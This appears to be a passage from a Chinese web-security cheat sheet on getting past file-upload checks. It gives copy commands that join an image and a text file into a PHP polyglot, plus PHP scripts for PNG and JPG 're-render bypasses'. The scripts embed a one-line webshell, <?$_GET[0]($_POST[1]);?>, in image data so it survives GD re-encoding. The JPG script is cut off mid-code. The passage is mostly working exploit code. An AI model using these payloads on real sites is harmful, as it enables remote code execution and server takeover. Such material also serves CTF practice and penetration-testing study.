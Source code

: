 ```
#define width 100
#define height 100
```

```
copy 1.png/b+1.txt/a 2.php
copy 1.png/b+1.txt/a 2.png
```

#### png二次渲染绕过

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */

?>
```



#### jpg二次渲染绕过

```php
<?php
    $miniPayload = "<?=\$_GET[0](\$_POST[1]);?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
```